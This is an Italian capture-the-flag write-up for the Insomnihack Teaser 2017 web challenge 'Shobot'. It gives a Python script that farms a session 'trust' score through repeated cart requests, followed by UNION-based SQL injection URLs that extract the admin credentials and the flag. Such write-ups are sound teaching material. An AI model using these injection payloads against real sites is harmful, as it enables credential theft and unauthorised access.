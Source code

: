 ```yaml
---
layout: post
title:  "InsomnihackTeaser2017 - Shobot"
date:   2017-01-27 14:15
categories: [InsomnihackTeaser2017]
tags: [Web]
author: jbz
---
```

Quel momento in cui il web server si ribella contro di te e ti cambia la password...


>Shobot - Web - 200 pts - realized by Blaklis 
>
>It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password, and blocked the order system on Shobot.  
>
>Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it? 
>
>Running on: http://shobot.teaser.insomnihack.ch 

  
Da una veloce recon al sito si notano le seguenti: 
 
   * Nel sorgente c'è un link all'amministrazione commentato. Punta a `?page=admin` 
   
   * Giocando con l'id in  `http://shobot.teaser.insomnihack.ch/?page=article&artid=1`  si prova con una sqli ma da errori e ci informa che non abbiamo un trust level abbastanza elevato per compiere quell'azione 
   
   * Nel source e' presente uno script js che funge da logger delle azioni compiute navigando il sito, con associato un cambio di valore di fiducia che aggiorna newTrust. In base a che pagine si visitano si cambia il livello di trust associato alla nostra sessione.  
 

```
<script> 
// @TODO LATER : Use it for generate some better error messages 
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":106},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":116},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":119},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":129},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":132},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":142},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":145},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":155},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":153},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":160},
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":120}] 
</script> 

```


   *  Si puo' aumentare questo valore con le seguenti azioni:
   
   1) Aggiunge al carrello il robot con id 1 (+3)  
   2) ## Aggiunge quello con id 2  
   3) ## Aggiunge quello con id 3  
   4) Si Valida l'ordine (+10)  
   5) Loop 1-4  
   6) ?????  
   7) Profit! 


```
# Script by TheZer0:

import requests
import re
import json

SESSID = ''

def addTrust(url):
    r = requests.get(url, cookies={'PHPSESSID': SESSID})
    if r.status_code == 200:
        result = re.search('var TRUST_ACTIONS = (.*)</script>',r.text)
        trustLog = json.loads(result.group(1))
        print("current trust: " + str(trustLog[-1]['newTrust']))
    return trustLog[-1]['newTrust']
    
def validateCart():
    return addTrust('http://shobot.teaser.insomnihack.ch/?page=cartconfirm')

while True:
    trust = validateCart()
    while trust<150:
        addTrust('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart')
        trust = validateCart()
    
#http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart
#http://shobot.teaser.insomnihack.ch/?page=cartconfirm

```

   * Una volta preso abbastanza trust tenendo lo script running in background si puo procedere con una sql injection 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,2,3,4,5 -- - 
```
 

   * Exploitarla ora e' facile, dopo aver enumerato tabelle e colonne (quelle di interesse sono sbht_username e shbt_userpassword nella tabella shbt_user) il payload finale e': 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 from shbt_user LIMIT 0,1-- -
```

   * ci restituisce le credenziali di login dell'amministratore:

```
sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry
```

   * ci logghiamo e conquistiamo la flag!

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
```
